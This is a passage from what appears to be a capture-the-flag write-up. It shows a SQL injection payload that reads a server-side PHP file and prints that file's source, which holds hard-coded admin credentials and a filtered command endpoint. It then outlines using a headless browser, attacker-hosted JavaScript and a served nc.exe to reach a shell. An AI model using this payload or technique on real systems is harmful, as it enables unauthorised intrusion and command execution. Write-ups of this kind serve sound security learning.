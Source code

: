 By submitting `' and 1=1 UNION select load_file('C:\\xampp\\htdocs\\admin\\backdoorchecker.php'),1,1;`, we get the following contents:

```bash
<?php

include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
			// FILTER ESCAPE CHARS
			foreach($bad as $char){
				if(strpos($_POST['cmd'],$char) !== false){
					die("You're not allowed to do that.");
				}
			}
			// CHECK IF THE FIRST 2 CHARS ARE LS
			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
				die("It's only allowed to use the $good command");
			}
			if($_SERVER['REMOTE_ADDR'] == "::1"){
				system($_POST['cmd']);
			} else{
				echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
			}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```

With this, we can now better understand how to utilise the `backdoorchecker.php`. We need a way to force the headless browser to create a `HTTP` `POST` request. To do so, we can get it to load an external javascript file hosted our own web server which will contain the code that will perform the `HTTP` `POST` request.

# Exploitation (2)

Lets create our javascript file and call it `load.js` and host it on our own web server. Also make sure `nc.exe` is also being served. 
